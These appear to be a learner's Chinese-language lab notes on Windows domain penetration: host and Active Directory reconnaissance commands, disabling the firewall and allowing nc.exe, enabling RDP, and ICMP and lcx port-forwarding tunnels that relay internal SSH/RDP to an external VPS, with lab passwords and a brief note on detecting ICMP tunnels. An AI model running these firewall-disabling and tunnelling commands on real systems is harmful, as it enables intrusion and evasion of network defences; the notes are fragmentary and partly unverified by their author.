# 配置
安装AD时，默认的数据库路径：



登录口令：Hacker.testlab




win7 192.168.1.3

test/P@ssword1


** 使用wmic指令没有日志？net localgroup administrators也没有日志？


```
C:/Users/Foe0>systeminfo |findstr /B /C:"OS Name" /C:"OS Version"

C:/Users/Foe0>systeminfo |findstr /B /C:"OS 名称" /C:"OS 版本"
OS 名称:          Microsoft Windows 7 企业版
OS 版本:          6.1.7600 暂缺 Build 7600


查看安装的软件及版本信息。

C:/Users/Foe0>wmic product get name,version
No Instance(s) Available.

C:/Users/Foe0>powershell "Get-WmiObject -class Win32_Product |Select-Object -Pro
perty name,version"
无法将“Get-WimObject”项识别为 cmdlet、函数、脚本文件或可运行程序的名称。请检
查名称的拼写，如果包括路径，请确保路径正确，然后重试。
所在位置 行:1 字符: 14
```

```
查看本级服务信息：wmic service list brief

查看进程列表：tasklist/wmic process list brief

查看启动程序信息：wmic startup get command,caption

查看计划任务：schtasks /query /fo LIST /v

查看主机开机时间：net statistics workstation

查询用户列表：net user   ----可尝试找出内往主机命令规则。

查看当前在线用户：query user|| qwinsta

查看会话：net session

查看端口列表：netstat -ano

查看补丁列表：systeminfo

wmic命令查看系统补丁：wmic qfe get Caption,Description,HotFixID,InstalledOn

查看本机共享列表：net share 
wmic share get name,path,status

查询路由器及可用接口的ARP缓存表route print
arp -a
```


### 14.查询防火墙相关配置：
#### 14.1 关闭防火墙

```
server2003前：netsh firewall set opmode disable 
2003之后：netsh advfirewall set allprofiles state off
```

#### 14.2 查看配置

netsh firewall show config

#### 14.3 修改配置

```
允许指定程序全部连接：（server2003前）：

netsh firewall add allowdprogram c:/nc.exe "allow nc" enable

netsh advfirewall firewall add rule name="pass nc" dir=in action=allow program=“c:/nc.exe”

允许指定程序退出
netsh advfirewall firewall add rule name="Allow nc" dir=out action=allow program="c:/nc.exe"

允许3389端口放行
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow


```

### 15 查看代理配置情况
```

reg query "HKEY_CURRENT_USER/Software/Microsoft/Windows/CurrentVersion/Internet Settings"
```



### 16 查询并开启远程连接服务

#### 16.1 查看远程连接端口

```
执行注册表查询语句，连接的端口为0xd3d，即3389
REG QUERY "HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/TerminalServer/WinStations/RDP-Tcp" /V PortNumber
```

#### 16.3 开启3389端口

```
winserser2003:
wmic path win32_terminalservicesetting where (_CLASS !="") call setallowtsconnections 1

winserver2008/winserver2012
wmic /namespace://root/cimv2/terminalservices path win32_terminalservicesetting where (_CLASS !="") call setallowsconnections 1

wmic /namespace://root/cimv2/terminalservices path win32_tsgeneralsetting where (TerminalName ='RDP-Tcp') call setuserauthenticationrequired 1

reg add "HKLM/SYSTEM/CURRENT/CONTROLSET/CONTROL/TERMINAL SERVER" /vfSingleSessionPerUser /t REG_DWORD /d 0 /f
    
```

## 2.2 自动收集信息

 通常会查询的一些信息：服务、用户账号、用户组、网络接口、硬盘信息、网络恭喜信息、操作系统、安装补丁、安装的软件、启动时运行的程序、时区等等。

### 1  wmic

（windows managerment instrumentation command-line，windows管理工具命令行），下载地址：http://www.fuzzysecurity.com/scripts/files/wmic_info.rar

使用后生成html文件。

# [实验1伊呀呀呀](http://www.fuzzysecurity.com/scripts/files/wmic_info.rar)

### 2 Empire

how to use?后渗透部分？好像是啊

某个模块，管理员权限。


## 2.3 查看当前权限
```
whoami
可能出现的情况：
1.本地普通用户 hostname/username
2.本地管理员用户 hostname/administrator
3.域内用户 domain/username

获取域SID 
whoami /all
```



```
net user test /domain 查看用户的详细信息。
```





## 2.4 判断是否存在域

#### 2.4.1 ipconfig

```
ipconfig /all 
域名反查确定DNS的IP地址
nslookup
```



#### 2.4.2 systeminfo中的域字段

如果为workgroup，则说明没有域环境。





#### 2.4.3 查看当前登录域及登录用户信息

```
net config workstation，其现象同systeminfo类似。
```



#### 2.4 4 判断主域 

```
net time /domain
```

如下显示

1.即是存在域且是域用户



2.存在域，但当前用户不是域用户

3.未加入域环境



## 2.5 探测域内存活主机
#### 2.5.1 NETBIOS
NETBIOS是局域网程序所使用的的一套API（应用程序编程接口），为程序提供了请求低级别服务的统计命令集；为局域网提供了网络及其他特殊功能。
netbios也是计算机的标识名（？主机名？）。用于局域网中计算机的互访。其工作流程就是正常的机器名解析查询应答过程。
nbtscan工具


## 2.7 收集域内信息

### 2.7.1 查询域

？？？需要使用system权限运行此命令。机器用户，机器名$

修改组策略中的服务，启动computer browser服务。





```
net view /domain 查询域
net view /domain:hacker 查询域内所有主机
net group /domain 查询域内所有用户组列表
net group “domain conputers” /domain 查询所有域成员计算机列表
net accounts /domain 查看域内密码设置情况

nltest /domain_trusts 获取域信任信息。
```



## 2.8 查找域控

```
nltest /DCLIST:hacker 查看域控主机名
nslookup -type=SRV _ldap._tcp 
net time /domain 查看时间服务器
net group “domain controllers” /domain 查看域控制器组
netdom query pdc
```







## 2.9 查询域内用户及管理员

```
net user /domain
wmic useraccount get /all 
dsquery user 查看存在的用户
net localgroup administrators 查询本地管理员组用户

查询域管理员 net group “domain admins” /domain

net group "enterprise admins" /domain 查询管理员用户组
```


krbtgt 可以创建票据授权服务TGS的加密密钥；还可实现多种域内权限持久化方法。

# 第3章 隐藏通信隧道技术

这里的隧道指的是，绕过端口屏蔽的一种通信方式，防火墙两端的数据包通过防火墙所允许的数据包类型，或者端口进行封装，与对方通信。当数据包到达目的地时，将数据包还原，再将还原后的数据包发送到相应的服务器上。

常见隧道举例：

网络层：ipv6，ICMP，GRE隧道。

传输层：tcp隧道，udp隧道，常规端口转发。

应用层：ssh隧道，HTTP隧道，HTTPS隧道，DNS隧道。

## 3.1 应用层：

### 3.1.1 使用dns协议判断网络连通性

DNS协议是连通的？

```bash
Windows：nslookup domain vps
```


```bash
dig @vps domain
```


木有开启53端口

## 3.2 网络层隧道技术

IPv6，ICMP隧道，GRE隧道。 

### 3.2.1 IPv6隧道

IPv6是针对于某些不能解析IPv6地址类型的安全设备。socat，6tunnel，nt6tunnel。

### 3.2.2 ICMP隧道

1.icmpsh（跑不起来）linux-windows

2.[pingtunnel](http://freshmeat.sourceforge.net/urls/f7770b6af3089face1ee4890eac8cee1) linux-linux/windows 

http://www.cs.uit.no/~daniels/PingTunnel/#download

 ps：linux需要先下载[libpcap](http://www.tcpdump.org/release/libpcap-1.9.0.tar.gz)包，win需要先下载wincap。

实验记录：

受害主机执行：ptunnel -x shuteer



vps执行：ptunnel -p 192.168.137.129 -lp 1080 -da 192.168.137.128 -dp 22 -x shuteer



尝试连接发现是可以使用ssh连接的，说明端口是连通了

但是无法连接成功，😣。

多次反复测试并抓包查看，使用3306端口时也不成功，数据包中没有相关信息，ε=(´ο｀*)))唉，先这样吧。

### 3.2.3 防御ICMP的方法

ICMP隧道的特征：同一来源的ICMP数据包的数量，隧道与普通的相比，数量特别大。

payload大于64bit的ICMP数据包。

看数据包的响应体与请求包的payload是否对应。

检查协议标签，某些工具会有特殊标识，如icmptunnel的TUNL。

## 3.3 传输层

传输层：tcp隧道，udp隧道，常规端口转发。

### 3.3.1 lcx（反弹shell，等待受害主机主动连回）

基于socket套接字实现的端口转发工具。

https://blog.csdn.net/wyvbboy/article/details/61921773

https://www.jb51.net/hack/575755.html

1.内网端口转发

```
实验：
环境
内网某主机（vmware-kali）
外网vps：139.155.2.117
准备工具http://www.vuln.cn/wp-content/uploads/2016/06/lcx_vuln.cn_.zip
vps首先开启监听：
./portmap -m 2 -p1 6666 -h2 139.155.2.117 -p2 7777

内网主机转发22端口到vps的6666端口上
./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 139.155.2.117 -p2 6666

然后在vps上连接ssh 127.0.0.1 -p 7777 或者ssh vps -p 7777

```

查看流量包，发现，看不出特征！有个gNb字段一直出现，但应该不是。。。

2.本地端口映射：将3389等转到53等可向外访问的端口上。

lcx.exe -tran 53 192.168.137.158 3389，将该主机的3389 映射到53端口上。

假设我的受害主机win10的3389不能被外访问，即不允许从外部来访问3389端口，但是53，或者其他常见的与公网交互的或者没有在防火墙黑名单中的，都可以尝试做端口映射，注意此处不允许复用端口。

